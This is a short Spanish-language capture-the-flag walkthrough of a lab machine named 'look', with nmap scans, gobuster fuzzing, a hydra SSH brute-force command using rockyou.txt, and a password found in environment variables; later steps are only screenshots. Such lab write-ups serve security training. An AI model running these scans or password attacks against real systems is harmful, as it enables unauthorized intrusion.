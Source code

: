 # Máquina look

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.163

![alt text](image-1.png)


### Servicios y versiones 

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 192.168.42.163

![alt text](image-2.png)


### Fuzzing web

gobuster dir -t 200 -u http://192.168.42.163 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git,swp -b 403,404 2>/dev/null


![alt text](image-3.png)

entramos en /info.php y observamos un usuario axel

![alt text](image-4.png)


### Explotación

hacemos fuerza bruta con hydra:

hydra -l axel -P /usr/share/wordlists/rockyou.txt ssh://192.168.42.163 -t 64 -I

![alt text](image-5.png)

me conecto por ssh:

![alt text](image-6.png)

verificamos que usuarios hay en el sistema:

![alt text](image-7.png)

visualizamos la variable de entorno env y encontramos la contraseña de dylan:

![alt text](image-8.png)

cambiamos al usuario dylan

![alt text](image-9.png)

### Escalar privilegios

![alt text](image-10.png)

![alt text](image-11.png)

### user.txt

![alt text](image-12.png)

### root.txt

![alt text](image-13.png)

